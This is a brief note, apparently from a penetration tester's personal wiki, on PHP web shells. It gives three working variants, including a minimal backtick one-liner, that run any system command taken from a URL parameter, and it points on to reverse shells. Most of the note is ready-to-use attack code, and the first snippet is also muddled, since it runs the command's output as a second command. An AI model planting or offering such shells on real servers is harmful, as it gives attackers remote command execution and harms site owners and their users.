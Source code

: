 # PHP

This is used to execute command in the explorer using the parameter ?cmd=COMMAND in the url and after you can use a [[Reverse shells]] 

````php
<?php
	$cmd = system($_GET['cmd']);
	echo "<pre>" . shell_exec($cmd) . "</pre>";
?>
````

Or you can use only this:
````php
<?php
	system($_GET['cmd']);
?>
````

A way to simplify this to saves size is this:

````php
<?=`$_GET[0]`?>
````

---

# Tags

#webshell #shell 

---